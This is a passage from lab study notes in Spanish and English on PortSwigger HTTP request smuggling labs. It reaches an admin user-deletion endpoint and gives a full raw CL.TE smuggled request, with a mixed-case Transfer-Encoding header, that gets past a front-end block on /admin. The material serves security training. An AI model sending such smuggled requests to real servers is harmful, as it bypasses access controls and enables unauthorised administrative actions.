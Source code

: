 3. Enviamos la petición de ataque y otra normal:

![amdinpaso3](images/admin-paso3.png)

Comprobamos que se realiza la petición al panel de admin e investigando el HTML de la respuesta, obtenemos que se elimina al usuario con `/delete?username=carlos` 

### CL.TE multiCase - Admin blocked  

>When attempting to access `/admin` portal URL path, we get the filter message, `Path /admin is blocked`. The HTTP Request Smuggler scanner ***identify*** the vulnerability as `CL.TE multiCase (delayed response)`.  

>To access the admin panel, send below request twice, adding the second header ```Content-Length: 10``` prevent the HOST header conflicting with first request.  

```html
POST / HTTP/1.1
Host: TARGET.net
Cookie: session=waIS6yM79uaaNUO4MnmxejP2i6sZWo2E
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
tRANSFER-ENCODING: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```  

>On the second time the request is send the admin portal is returned in response.  

![cl.te multicase admin blocked](images/cl.te-multicase-admin-blocked.png)  

[PortSwigger Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)  
